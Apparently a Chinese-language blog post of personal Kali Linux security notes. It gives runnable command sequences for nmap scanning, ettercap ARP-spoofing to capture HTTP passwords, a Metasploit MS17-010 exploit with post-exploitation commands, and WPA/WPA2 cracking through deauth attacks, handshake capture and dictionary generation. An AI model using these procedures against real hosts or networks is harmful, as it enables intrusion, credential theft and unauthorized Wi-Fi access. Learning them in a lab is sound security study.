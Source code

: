 ```yaml
---
title: "网络安全笔记（kali）"
description: "网络安全笔记（kali）"
date: 2018-06-02T16:57:56+08:00
categories:
  - 学习
tags:
  - Linux
---
```


## NMAP扫描

中文文档：http://www.nmap.com.cn/doc/manual.shtm

```shell
nmap # 帮助 -h可省略
nmap 192.168.1.1 # 最简单的命令
nmap -v 192.168.1.1 # 提高输出信息的详细度
nmap -vv 192.168.1.1 # 更详细
nmap -A 192.168.1.1 # 启用了操作系统检测(-O)和版本扫描(-sV)，以后会增加更多的功能
nmap -p 1-1024 192.168.1.1 # 只扫描1-1024端口
nmap -p 1-1024 -A 192.168.209.0/24 # 扫描192.168.209.0/24网段主机的1-1024端口，同时启用系统检测和版本扫描
```

## ARP欺骗获取账号密码(ARP欺骗和MITM攻击)

```shell
ettercap -G # 启用ettercap的GUI
```
- Sniff - Unified sniffing - 选择网卡(一般eth0) - 确定
- Hosts - Host List - 选择两个目标(一般是目标主机和网关)并添加到Target 1/2
- Mitm - Arp poisoning - 勾选Sniff remote connections - OK
- HTTP账号密码会自动抓取并显示
- View - Connections
```shell
# 其它工具和命令
arpspoof
```

## MSF入侵主机

```shell
msfupdate # 更新msf
msfconsole # 启动msf
help # 帮助
search ms17-010 # 查找ms17-010相关的模块
use exploit/windows/smb/ms17_010_psexec # 使用模块 exploit/windows/smb/ms17_010_psexec
show options # 显示选项
set RHOST 192.168.209.129 # 设置RHOST的值为192.168.209.129
exploit # 发起攻击
```

其它资料：https://blog.csdn.net/qq_29701419/article/details/48975769

```shell
# msf载荷，可选
show payloads # 显示载荷
set payload windows/shell/bind_tcp # 使用载荷 windows/shell/bind_tcp
```

```shell
# 入侵成功后的命令
help # 帮助
sysinfo # 系统信息
screenshot # 截屏
shell # 进入系统命令行
```

##Aircrack-ng破解WiFi密码（WPA/WPA2）

```shell
ifconfig # 查看无线网卡名称，这里假设我的是wlan0
airmon-ng start wlan0 # 将wlan0改成monitor模式。关于无线网卡的模式，请另行百度。
airodump-ng wlan0 # 启动抓包工具airodump-ng，选择无线网卡wlan0
# 然后选择你要破解的WiFi的BSSID，记下它的信道（channel），这里假设我的目标的BSSID是AA:AA:AA:AA:AA:AA，信道是1。抓包保存的文件名为test。
# airodump-ng -c [the BSSID's chanel] -w [output capfile's name] --bssid [BSSID] [interface]
airodump-ng -c 1 -w test --bssid AA:AA:AA:AA:AA:AA wlan0
# 接下来等待握手包。当有客户端连接WiFi时就会产生握手包。我们可以慢慢等待，或者用deauth攻击让客户端掉线重连。
# 我们可以选择一个客户端，记下他的MAC地址，然后新开一个终端，进行deauth攻击。这里假设它的MAC地址是BB:BB:BB:BB:BB:BB。我们发10个deauth包。
# aireplay-ng -0 [number] -a [BSSID] -c [user's MAC] [interface]
aireplay-ng -0 10 -a AA:AA:AA:AA:AA:AA -c BB:BB:BB:BB:BB:BB wlan0
# 然后用户就会掉线，我们等它自动重连，然后我们就会得到握手包。airodump-ng界面会显示“WPA handshake”。
# 然后我们用字典进行破解。这里假设字典为dict.txt
# aircrack-ng -w [dictionary's name] [capfile's name(for example:aaa-01.cap)]
aircrack-ng -w dict.txt test.cap
# 然后就等密码出来了。当然，如果密码不在字典里面，是跑不出来的。

# PS：我们可以用crunch来生成字典。这里生成一个0-9组成的8位数字典（即00000000-99999999），输出dict.txt。
crunch 8 8 0123456789 -o dict.txt
# 如果WiFi密码是八位数，用这个字典就能跑出来了。
# 从攻击过程我们可以知道，相对于密码复杂度，密码长度更重要。如果只是纯数字的密码，每增加一位，平均破解时间增加十倍。不过如果是手机号做密码，那就另当别论，手机号虽然是13位，但数量并不是10^13那么多。
```